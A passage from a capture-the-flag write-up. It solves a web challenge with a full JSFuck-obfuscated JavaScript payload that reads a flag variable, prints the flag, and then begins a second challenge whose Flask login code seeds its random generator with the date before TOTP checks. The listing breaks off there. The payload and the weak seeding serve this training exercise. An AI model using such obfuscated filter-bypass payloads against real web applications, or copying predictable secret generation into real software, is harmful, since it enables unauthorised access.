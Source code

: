 ```js
    }
    res.send(out);
});

const server = app.listen(0, () => console.log(server.address().port))

```

* Looking at the source code it is obvious that we have to use js-fuck to solve this challenge.

* Submitting `out = flag` in [js-fuck](https://jsfuck.com) simply gives us the flag.

```
payload = (!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+[]]+(!![]+[])[+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+([]+[])[(![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]()[+!+[]+[+!+[]]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(![]+[+[]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]
```

**Flag**: `bcactf{1ava5cRIPT_mAk35_S3Nse_48129846}`

# Web/MOC, INC.

> **Description** : Towards the end of last month, we started receiving reports about suspicious activity coming from a company called MOC, Inc. Our investigative team has tracked down their secret company portal and cracked the credentials to the admin account, but could not bypass the advanced 2FA system. Can you find your way in?\
>username: admin,password: admin \
> **Author** : `Thomas`

* Source code:
```python
from flask import Flask, request, render_template

import datetime
import sqlite3
import random
import pyotp
import sys

random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))

app = Flask(__name__)

@app.get('/')
def index():
    return render_template('index.html')

@app.post('/')
def log_in():
    with sqlite3.connect('moc-inc.db') as db:
        result = db.cursor().execute(
            'SELECT totp_secret FROM user WHERE username = ? AND password = ?',
            (request.form['username'], request.form['password'])
        ).fetchone()
```
